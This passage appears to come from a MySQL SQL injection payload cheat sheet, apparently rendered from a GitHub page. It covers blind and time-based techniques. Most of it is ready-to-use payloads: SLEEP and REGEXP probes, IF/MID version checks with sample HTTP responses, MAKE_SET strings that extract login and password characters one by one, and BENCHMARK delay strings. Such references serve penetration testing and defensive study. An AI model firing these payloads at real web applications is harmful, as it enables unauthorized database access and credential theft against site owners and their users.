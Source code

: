 Payload:
```
' OR (SELECT (CASE WHEN EXISTS(SELECT name FROM items WHERE name REGEXP "^a.*") THEN SLEEP(3) ELSE 1 END)); -- -
```

Would work in the query (where the "where" clause is the injection point):
```
SELECT name,price FROM items WHERE name = '' OR (SELECT (CASE WHEN EXISTS(SELECT name FROM items WHERE name REGEXP "^a.*") THEN SLEEP(3) ELSE 1 END)); -- -';
```

In said query, it will check to see if an item exists in the "name" column in the "items" database that starts with an "a". If it will sleep for 3 seconds per item.

### MYSQL Blind using a conditional statement

TRUE: `if @@version starts with a 5`:

```sql
2100935' OR IF(MID(@@version,1,1)='5',sleep(1),1)='2
Response:
HTTP/1.1 500 Internal Server Error
```

False: `if @@version starts with a 4`:

```sql
2100935' OR IF(MID(@@version,1,1)='4',sleep(1),1)='2
Response:
HTTP/1.1 200 OK
```

### MYSQL Blind with MAKE_SET

```sql
AND MAKE_SET(YOLO<(SELECT(length(version()))),1)
AND MAKE_SET(YOLO<ascii(substring(version(),POS,1)),1)
AND MAKE_SET(YOLO<(SELECT(length(concat(login,password)))),1)
AND MAKE_SET(YOLO<ascii(substring(concat(login,password),POS,1)),1)
```

### MYSQL Blind with LIKE

['_'](https://www.w3resource.com/sql/wildcards-like-operator/wildcards-underscore.php) acts like the regex character '.', use it to speed up your blind testing

```sql
SELECT cust_code FROM customer WHERE cust_name LIKE 'k__l';
```

## MYSQL Time Based

The following SQL codes will delay the output from MySQL.

```sql
+BENCHMARK(40000000,SHA1(1337))+
'%2Bbenchmark(3200,SHA1(1))%2B'
AND [RANDNUM]=BENCHMARK([SLEEPTIME]000000,MD5('[RANDSTR]'))  //SHA1
RLIKE SLEEP([SLEEPTIME])
OR ELT([RANDNUM]=[RANDNUM],SLEEP([SLEEPTIME]))
```
